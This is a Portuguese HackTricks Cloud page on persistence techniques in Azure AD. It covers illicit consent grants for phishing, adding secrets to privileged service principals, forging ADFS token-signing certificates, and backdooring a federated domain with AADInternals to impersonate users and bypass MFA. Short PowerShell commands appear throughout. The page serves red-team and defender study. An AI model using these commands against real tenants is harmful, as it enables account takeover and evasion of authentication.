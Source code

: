 # Az - Persistência

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

### Concessão de Consentimento Ilícito

Por padrão, qualquer usuário pode registrar um aplicativo no Azure AD. Portanto, você pode registrar um aplicativo (apenas para o locatário de destino) que precisa de permissões de alto impacto com consentimento do administrador (aprovar se você for o administrador) - como enviar e-mails em nome de um usuário, gerenciamento de funções, etc. Isso nos permitirá **executar ataques de phishing** que seriam muito **produtivos** em caso de sucesso.

Além disso, você também poderia aceitar esse aplicativo com seu usuário como uma forma de manter o acesso sobre ele.

### Aplicativos e Princípios de Serviço

Com privilégios de Administrador de Aplicativos, GA ou uma função personalizada com permissões de microsoft.directory/applications/credentials/update, podemos adicionar credenciais (senha ou certificado) a um aplicativo existente.

É possível **visar um aplicativo com permissões elevadas** ou **adicionar um novo aplicativo** com permissões elevadas.

Uma função interessante para adicionar ao aplicativo seria a **função de administrador de autenticação privilegiada**, pois permite **redefinir a senha** dos Administradores Globais.

Essa técnica também permite **burlar a MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Para autenticação baseada em certificado

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
### Federação - Certificado de Assinatura de Token

Com **privilégios de DA** no AD local, é possível criar e importar **novos certificados de assinatura de token** e **certificados de descriptografia de token** que tenham uma validade muito longa. Isso nos permitirá **fazer login como qualquer usuário** cujo ImuutableID conhecemos.

**Execute** o comando abaixo como **DA nos servidores ADFS** para criar novos certificados (senha padrão 'AADInternals'), adicioná-los ao ADFS, desativar a rotação automática e reiniciar o serviço:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Em seguida, atualize as informações do certificado com o Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federação - Domínio Confiável

Com privilégios GA em um locatário, é possível **adicionar um novo domínio** (deve ser verificado), configurar seu tipo de autenticação para Federado e configurar o domínio para **confiar em um certificado específico** (any.sts no comando abaixo) e emissor:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referências

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

